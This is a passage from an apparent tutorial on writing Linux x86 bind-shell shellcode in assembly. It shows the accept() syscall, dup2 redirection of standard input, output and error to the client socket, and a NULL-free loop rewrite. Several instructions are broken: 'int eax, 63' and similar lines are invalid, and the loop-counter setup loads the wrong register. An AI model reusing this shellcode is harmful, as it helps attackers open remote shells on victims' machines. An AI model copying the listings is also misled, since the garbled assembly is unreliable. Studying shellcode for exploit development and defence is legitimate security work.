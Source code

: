 ; syscall socketcall
; mov eax, 102
mov eax, ebx
mov al, 102

; 1st argument of socketcall(): SYS_ACCEPT call
mov bl, 5

; 2nd argument of socketcall(): pointer to accept() arguments
mov ecx, esp

; execute accept()
int 0x80</code></pre><h4 id="io-redirection">I/O Redirection</h4><p>As mentioned previously, the redirection of <code>input</code>/<code>output</code>/<code>error</code> is performed by means of the function <code>dup2</code>. The call to <code>accept()</code> returns the File Descriptor associated with the Client Socket.</p><pre><code class="language-cpp">dup2(client_socket_fd, 0);
dup2(client_socket_fd, 1);
dup2(client_socket_fd, 2);</code></pre><p>According to the file <code>/usr/include/i386-linux-gnu/asm/unistd_32.h</code>, <code>dup2</code> is the syscall <code>#63</code>. Given this information, we're now ready to convert the code above into assembly:</p><pre><code class="language-nasm">    ; save the Client File Descriptor for later use
    mov edi, eax

    ; dup2(client_socket_fd, 0)
    int eax, 63
    int ebx, edi
    int ecx, 0
    int 0x80

    ; dup2(client_socket_fd, 1)
    int eax, 63
    int ebx, edi
    int ecx, 1
    int 0x80

    ; dup2(client_socket_fd, 2)
    int eax, 63
    int ebx, edi
    int ecx, 02
    int 0x80</code></pre><p>This is good enough, but I wanted a better approach, one that uses fewer bytes and it's also free of <code>NULL</code> ones:</p><pre><code class="language-nasm">    ; loop counter (repeats dup2() three times)
    mov ecx, ebx
    mov bl, 3

    ; save Client File Descriptor for later use
    mov edi, eax

RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov al, 63

    ; Client file descriptor
    mov ebx, edi
